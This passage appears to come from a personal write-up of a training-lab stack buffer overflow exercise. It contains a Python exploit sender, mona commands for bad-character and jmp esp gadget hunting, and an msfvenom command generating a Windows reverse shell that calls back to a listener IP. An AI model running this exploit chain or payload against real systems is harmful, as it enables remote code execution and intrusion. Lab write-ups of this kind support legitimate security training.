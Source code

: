 ```python
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((ip, port))
print("Sending test pattern...")
s.send(bytes(buffer + "\r\n", "latin-1"))
s.close()

```

```
!mona compare -f C:\mona\oscp\bytearray.bin -a 0x01CBFA30
```

![Pasted image 20250529125741.png](../../IMAGES/Pasted%20image%2020250529125741.png)

Finally, we got:

```
Hooray, normal shellcode unmodified
```

Means that the bad char hunting is over, we now need to proceed with finding the `jmp esp` gadget, we need to run:

```
!mona jmp -r esp -cpb "\x00\x01\x02\x07\x08\x20\x2e\x2f\xa0\xa1"
```

![Pasted image 20250529125932.png](../../IMAGES/Pasted%20image%2020250529125932.png)

As seen, we get some jmp esp gadgets, let's choose the first one:

```
0x625011AF
```

In our exploit, we need to change it too little-endian:

```python
retn = "\xaf\x11\x50\x62"
```

Now, we are approaching the end, we need to use `msfvenom` to generate the shellcode, let's do:

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.14.21.28 LPORT=4444 EXITFUNC=thread -b "\x00\x01\x02\x07\x08\x20\x2e\x2f\xa0\xa1" -f c
```

